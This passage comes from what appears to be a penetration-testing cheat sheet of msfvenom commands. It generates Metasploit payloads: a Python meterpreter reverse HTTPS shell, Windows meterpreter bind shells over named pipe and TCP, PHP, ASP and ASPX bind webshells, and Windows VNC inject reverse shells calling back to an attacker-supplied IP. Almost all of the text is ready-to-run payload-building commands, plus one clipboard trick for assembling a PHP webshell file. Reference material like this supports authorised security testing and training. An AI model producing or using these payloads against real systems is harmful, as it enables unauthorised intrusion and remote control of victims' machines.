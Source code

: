 `$ msfvenom -p python/meterpreter_reverse_https handlersslcert=<FILE.pem> sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT> -o met.py`

##### 2.6.2.5 - Stageless Windows Meterpreter Bind Shells

1. **x86-64 (64-bit) Payloads**

For the SMB pipe the default for LPORT will always be port **445** 

`$ msfvenom -p windows/x64/meterpreter_bind_named_pipe lport=<PORT> pipename=<PIPENAME> -f exe -o met-x86-64.exe`

`$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f exe -o met-x86-64.exe`

##### 2.6.2.6 - Stageless Mac OSX Meterpreter Bind Shell

TODO: Fill the missing info related stageless mac osx meterpreter bind shells

##### 2.6.2.7 - Stageless Bind Webshells

1. **PHP**

`$ msfvenom -p php/meterpreter_bind_tcp lport=<PORT> -f raw > met.php`

`$ cat met.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> met.php`

2. **ASP**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f asp -o met-x86.asp`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f asp -o met-x64.asp`

3. **ASPX**

- x86 (32-bit) Payloads

`$ msfvenom -p windows/meterpreter_bind_tcp lport=<PORT> -f aspx -o met-x86.aspx`

- x86-64 (64-bit) Payloads

`$ msfvenom -p windows/x64/meterpreter_bind_tcp lport=<PORT> -f aspx -o met-x64.aspx`

### 2.7 - VNC Payloads

#### 2.7.1 - Staged Windows VNC Reverse Shells

1. **x86 (32-bit) Payloads**

`$ msfvenom -p windows/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

`$ msfvenom -p windows/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86.exe`

2. **x86-64 (64-bit) Payloads**

`$ msfvenom -p windows/x64/vncinject/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`

`$ msfvenom -p windows/x64/vncinject/reverse_http lhost=<IP> lport=<PORT> -f exe -o vnc-x86-64.exe`
